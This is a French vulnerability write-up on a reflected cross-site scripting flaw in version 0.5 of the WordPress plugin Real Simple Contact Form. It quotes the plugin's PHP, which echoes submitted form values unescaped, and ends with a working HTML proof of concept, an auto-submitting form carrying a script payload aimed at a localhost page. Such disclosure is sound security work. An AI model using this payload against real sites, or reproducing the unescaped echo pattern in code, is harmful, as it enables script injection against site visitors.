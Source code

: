 ```yaml
---
title: "Cross-Site Scripting (reflected) dans le plugin Wordpress Real Simple Contact Form"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [Real Simple Contact Form](https://wordpress.org/plugins/real-simple-contact-form/) se présente de cette façon :

> Create contact form easily for wordpress blog. No fancy settings. Just install plugin and contact form is ready.

La version testée est la 0.5 et date d'il y a 12 ans au moment de ces lignes.

## La vulnérabilité

Dans le script principal `real-simple-contact-form.php` on trouve un hook qui va se charger de créer un nouveau post sur le blog :

```php
register_activation_hook(__FILE__,"create_contact_page");
```

Le post en question le voici :

```php
/*Create contact form*/
function create_contact_page ()
{
    global $user_ID;

    $page['post_type']    = 'page';
    $page['post_content'] = '[realsimplecontactform]';
    $page['post_parent']  = 0;
    $page['post_author']  = $user_ID;
    $page['post_status']  = 'publish';
    $page['post_title']   = 'Contact Us';
    $pageid = wp_insert_post ($page);
    if ($pageid == 0) { /* Page Add Failed */ }
}
```

Le contenu `[realsimplecontactform]` correspond à un shortcode que le plugin définit aussi :

```php
/*Add short code*/
add_shortcode( 'realsimplecontactform', 'contact_form_function' );
```

C'est cette fonction (qui sera appelée quand le shortcode est croisé par Wordpress) qui est vulnérable :

```php
/*Add contact form*/
function contact_form_function( $atts ) {

    if (isset($_POST['real_simple_contact_form_data']))
    {
        if (empty($_POST['contact_name']))
        {
            echo "Please Enter Name";
        }
        elseif (empty($_POST['contact_email']))
        {
            echo "Please Enter Email Address";
        }
        elseif (!filter_var($_POST['contact_email'], FILTER_VALIDATE_EMAIL)) {
            echo "Please Enter Correct Email Address";
        }
        elseif (empty($_POST['contact_subject']))
        {
            echo "Please Enter Subject";
        }
        elseif (empty($_POST['contact_desc']))
        {
            echo "Please Enter Description";
        }
        else {
            /*everything ok.. lets process */
            $name = $_POST['contact_name'];
            $email_id = $_POST['contact_email'];
            $subject = $_POST['contact_subject'];
            $desc = $_POST['contact_desc'];
            $retmsg = process_contact_form($name,$email_id,$subject,$desc);
        }

        $name = $_POST['contact_name'];
        $email_id = $_POST['contact_email'];
        $subject = $_POST['contact_subject'];
        $desc = $_POST['contact_desc'];

    }
    else {                                                                                                                     $name = "";
        $email_id = "";
        $subject = "";
        $desc = "";
    }

?>

        <form method="post" action="<?php echo $_SERVER["REQUEST_URI"]; ?>">
        <p>Name : <br />
    <input style="width:250px;" name="contact_name" type="text" value="<?php echo $name; ?>" /> <br />
        <p>Email Address : <br />
    <input style="width:250px;" name="contact_email" type="text" value="<?php echo $email_id; ?>" /><br />
        <p>Subject : <br />
    <input style="width:250px;" name="contact_subject" type="text" value="<?php echo $subject; ?>" /><br />
        <p>Description : <br />
    <textarea name="contact_desc" rows="8" cols="50" ><?php echo $desc; ?></textarea>         <br />
<!--    <?php wp_nonce_field('ecfa261455','ecfnf'); ?> -->

      <div class="submit">
        <input type="submit" name="real_simple_contact_form_data" value="<?php echo 'Send'; ?>" />
        </div>
        <hr />
    </form>

<?php
}
```

On voit qu'en cas d'erreur de saisie sur le formulaire de contact, les données reçues sont remises dans les champs pour que l'utilisateur n'ait pas à les retaper, ce qui est très bien.

Sauf que... aucun filtrage n'est fait sur la nature des données soumises qui sont affichées telles quelles et ouvrent la porte à une vulnérabilité XSS.

PoC :

```html
<html>
<body>
<form id="myForm" method="POST" action="http://localhost:8000/?page_id=6">
        <input type="hidden" name="contact_name" value="&quot;&gt;&lt;ScRiPt&gt;alert(/XSS/)&lt;/sCrIpT&gt;" />
        <input type="hidden" name="contact_email" value="whatever" />
        <input type="hidden" name="contact_subject" value="default" />
        <input type="hidden" name="real_simple_contact_form_data" value="Send" />
        <input type="hidden" name="contact_desc" value="Hi there!" />
</form>
<script>document.createElement('form').submit.call(document.getElementById('myForm'));</script>
</body>
</html>
```
